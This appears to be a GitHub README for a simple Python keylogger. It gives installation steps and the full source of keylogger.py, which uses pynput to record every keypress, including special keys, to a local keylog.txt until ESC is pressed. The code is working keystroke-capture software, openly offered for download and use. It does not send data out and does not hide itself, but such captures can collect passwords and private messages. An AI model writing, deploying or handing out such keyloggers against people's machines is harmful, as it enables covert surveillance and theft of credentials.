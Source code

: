 # Keylogger

A simple keylogger implemented using the `pynput` library to log keyboard events to a text file.

## Features

- Logs alphanumeric keys.
- Logs special keys like space, enter, and tab.
- Stops logging when the escape key (ESC) is pressed.

## Dependencies

- `pynput`

## Installation

1. Clone the repository:
    ```bash
    git clone <repository_url>
    ```
2. Navigate to the project directory:
    ```bash
    cd <repository_name>
    ```
3. Install the required Python packages:
    ```bash
    pip install pynput
    ```

## Usage

1. Run the script:
    ```bash
    python keylogger.py
    ```
2. The keylogger will start logging keys to `keylog.txt` in the same directory as the script.
3. Press the ESC key to stop the keylogger.

## File

- `keylogger.py`

```python
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(str(key.char))
    except AttributeError:
        # Handle special keys like space, enter, etc.
        if key == keyboard.Key.space:
            with open(log_file, "a") as f:
                f.write(' ')
        elif key == keyboard.Key.enter:
            with open(log_file, "a") as f:
                f.write('\n')
        elif key == keyboard.Key.tab:
            with open(log_file, "a") as f:
                f.write('\t')
        else:
            with open(log_file, "a") as f:
                f.write(f'[{key.name}]')

def on_release(key):
    if key == keyboard.Key.esc:
        # Stop listener
        return False

# Collect events until released
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
# License
This project is open source and available under the MIT License.

# Author
`Umar Farooq`
